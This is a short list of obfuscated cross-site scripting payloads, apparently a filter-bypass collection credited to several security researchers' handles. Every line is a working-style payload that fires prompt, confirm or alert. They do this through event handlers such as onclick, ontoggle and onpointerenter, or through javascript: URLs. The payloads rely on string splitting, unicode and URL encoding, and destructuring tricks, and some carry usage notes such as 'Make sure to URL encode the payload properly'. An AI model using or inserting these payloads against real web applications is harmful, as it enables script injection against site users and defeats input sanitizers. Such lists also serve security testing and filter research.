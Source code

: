 <x/onclick=globalThis&lsqb;'\u0070r\u006f'+'mpt']&lt;)>clickme   (working)-Pinaki @0xInfection(Make sure to URL encode the payload properly)
tarun"><x/onafterscriptexecute=confirm%26lpar;)// -@sratarun
<a/href="j%0A%0Davascript:{var{3:s,2:h,5:a,0:v,4:n,1:e}='earltv'}[self][0][v+a+e+s](e+s+v+h+n)(/infected/.source)" />click (workin)Pinaki @0xInfection (Make sure the applications decodes the payload from encoded)
<details/open/ontoggle="self['wind'%2b'ow']['one'%2b'rror']=self['wind'%2b'ow']['ale'%2b'rt'];throw/**/self['doc'%2b'ument']['domain'];"> - @xsspayloads
<svg onload\r\n=$.globalEval("al"+"ert()");>
<bleh/onclick=top[/al/.source+/ert/.source]&Tab;``>click Pinaki @0xInfection
<sVg OnPointerEnter="location=`javas`+`cript:ale`+`rt%2`+`81%2`+`9`;//</div"> -@AldenAous

